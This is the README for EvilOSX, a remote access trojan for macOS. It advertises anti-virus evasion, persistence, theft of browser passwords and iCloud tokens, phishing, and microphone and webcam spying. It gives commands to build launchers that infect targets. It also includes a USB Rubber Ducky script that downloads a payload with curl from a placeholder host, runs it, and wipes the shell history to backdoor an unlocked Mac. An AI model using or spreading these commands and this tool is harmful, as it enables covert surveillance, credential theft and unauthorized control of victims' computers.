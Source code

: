 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="/data/images/logo.png?raw=true" alt="Logo" width="280"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">An evil RAT (Remote Administration Tool) for macOS / OS X.</h4>

---

## Features
- Emulate a terminal instance
- Simple extendable [module] system
- No bot dependencies (pure python)
- Undetected by anti-virus (OpenSSL [AES-256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encrypted payloads)
- Persistent
- GUI and CLI support
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Retrieve/monitor the clipboard
- Retrieve browser history (Chrome and Safari)
- [Phish](https://i.imgur.com/x3ilHQi.png) for iCloud passwords via iTunes
- iTunes (iOS) backup enumeration
- Record the microphone
- Take a desktop screenshot or picture using the webcam
- Attempt to get root via local privilege escalation

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/alex14324/evilos.git

# Go into the repository
$ cd evilos

# Install dependencies required by the server
$ sudo pip install -r requirements.txt

# Start the GUI
$ python start.py

# Lastly, run a built launcher on your target(s)
```

**Warning:** Because payloads are created unique to the target system (automatically by the server), the server must be running when any bot connects for the first time.

### Advanced users

There's also a CLI for those who want to use this over SSH:
```bash
# Create a launcher to infect your target(s)
$ python start.py --builder

# Start the CLI
$ python start.py --cli --port 1337

# Lastly, run a built launcher on your target(s)
```

## Screenshots

![CLI](https://i.imgur.com/DGYCQMl.png)
![GUI](https://i.imgur.com/qw3k4z4.png)

## Motivation
This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See also: https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- It takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the one you are looking for.


## Versioning
EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and bot releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility (with older bots) bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Design Notes
- Infecting a machine is split up into three parts:
  * A **launcher** is run on the target machine whose only goal is to run the stager
  * The stager asks the server for a **loader** which handles how a payload will be loaded
  * The loader is given a uniquely encrypted **payload** and then sent back to the stager
- The server hides it's communications by sending messages hidden in HTTP 404 error pages (from BlackHat's "Hiding In Plain Sight")
  * Command requests are retrieved from the server via a GET request
  * Command responses are sent to the server via a POST request
- Modules take advantage of python's dynamic nature, they are simply sent over the network compressed with [zlib](https://www.zlib.net), along with any configuration options
- Since the bot only communicates with the server and never the other way around, the server has no way of knowing when a bot goes offline

